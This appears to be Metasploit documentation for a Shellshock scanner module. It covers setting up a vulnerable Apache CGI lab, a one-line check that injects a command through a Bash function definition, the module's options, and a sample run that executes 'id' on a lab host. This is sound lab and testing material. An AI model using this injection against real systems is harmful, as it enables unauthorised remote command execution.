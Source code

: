 ## Vulnerable Application

This module scans for the Shellshock vulnerability, a flaw in how the Bash shell handles external
 environment variables. This module targets CGI scripts in the Apache web server by setting
 the `HTTP_USER_AGENT` environment variable to a malicious function definition.

### Creating a Vulnerable Environment
To setup an Environment that the scanner can be run against, follow the below steps to install a
 vulnerable OS and Apache version.

  To ensure that you have a vulnerable version of bash:

  1. Install [Ubuntu 12.04.5 LTS](http://cdimage.ubuntu.com/releases/12.04/release/)
  2. Log into console
  3. Confirm the host is vulnerable (see next section)
  4. Also install Apache2 from the apt repository with the following command

    ```
    sudo apt-get install apache2
    ```

  5. Enable cgi-mod in apache with the following command

    ```
    sudo ln -s /etc/apache2/mods-available/cgi.load /etc/apache2/mods-enabled/cgi.load
    ```

  6. Restart the apache service with the following command

    ```
    sudo service apache2 reload
    ```

  7. In your favorite text editor create a file (as root) in `/usr/lib/cgi-bin` called `test.sh` with the following contents:

    ```
    #!/bin/bash
    printf "Content-type: text/html\n\n"
    printf "Test!\n"
    ```

  8. Set the file to be executable with the following command

    ```
    sudo chmod +x /usr/lib/cgi-bin/test.sh
    ```

### To check if a host is vulnerable to the attack

   1. Run (on the host)

    ```
    env 'x=() { :;}; echo vulnerable' 'BASH_FUNC_x()=() { :;}; echo vulnerable' bash -c "echo test"
    ```

   2. The shell will return the below text if the environment is vulnerable

    ``` 
    vulnerable
    bash: BASH_FUNC_x(): line 0: syntax error near unexpected token `)'   
    bash: BASH_FUNC_x(): line 0: `BASH_FUNC_x() () { :;}; echo vulnerable'
    bash: error importing function definition for `BASH_FUNC_x'
    test
    ```

## Verification Steps

1. Do: run `msfconsole`
2. Do: use `auxiliary/scanner/http/apache_mod_cgi_bash_env`
3. Do: set `RHOSTS [IP]`
4. Do: set `TARGETURI [URI]`
5. Do: `run`

## Options

**CMD**

This is the command that will be run by the scanner. The default setting is `/usr/bin/id`.

**CVE**

This is the CVE that will be used to exploit the vulnerability.
The default setting is `CVE-2014-6271` but valid options are `CVE-2014-6271` or `CVE-2014-6278`.

**HEADER**

This is the user agent string that is sent when the module is run. The default setting is `User-Agent`.

**METHOD**

This is HTTP method used by the module.  The default setting is `GET`.

## Scenarios

### Ubuntu 12.04.5 LTS on Apache 2.2.22

  ```
msf5 > use auxiliary/scanner/http/apache_mod_cgi_bash_env
msf5 auxiliary(scanner/http/apache_mod_cgi_bash_env) > set RHOSTS 172.16.131.134
RHOSTS => 172.16.131.134
msf5 auxiliary(scanner/http/apache_mod_cgi_bash_env) > set TARGETURI /cgi-bin/test.sh
TARGETURI => /cgi-bin/test.sh
msf5 auxiliary(scanner/http/apache_mod_cgi_bash_env) > exploit

[+] uid=33(www-data) gid=33(www-data) groups=33(www-data)
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
  ```
